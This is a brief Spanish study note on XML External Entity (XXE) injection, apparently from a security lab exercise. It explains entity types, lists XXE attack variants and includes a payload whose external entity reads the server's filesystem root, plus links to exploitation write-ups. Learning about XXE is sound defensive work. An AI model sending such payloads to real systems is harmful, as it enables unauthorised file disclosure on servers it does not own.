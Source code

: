 # XML External Entities (XXE)

## ¿Qué son?
Definición de etiquetas que serán reemplazadas al leer un XML. Hay 3 tipos.
+ entidades internas
+ entidades externas
+ entidades de parámetros

```xml
<?xml version="1.0" standalone="yes" ?>
<!DOCTYPE author [
  <!ELEMENT author (#PCDATA)>
  <!ENTITY js "Jo Smith">
]>
<author>&js;</author>
```

En todos los lugares que se utiliza `&js;` el analizador lo reemplazará.

## Tipos de ataques XXE
+ Clásico: en este caso, se incluye una entidad externa en un DTD local
+ Ciego: no se muestran resultados ni errores en la respuesta
+ Error: intente obtener el contenido de un recurso en el mensaje de error

*********************************************************************

# Let's try (3)
```xml
<?xml version="1.0"?>
<!DOCTYPE comment [
<!ENTITY xxe SYSTEM "/">
]>
<comment><text>&xxe;</text></comment>
```

*********************************************************************

# Modern REST framework

*********************************************************************

# Referencias interesantes
+ https://enciphers.com/how-to-exploit-xxe-vulnerabilities/
+ https://blog.netspi.com/playing-content-type-xxe-json-endpoints/
+ https://bookgin.tw/2018/12/04/from-xxe-to-rce-pwn2win-ctf-2018-writeup/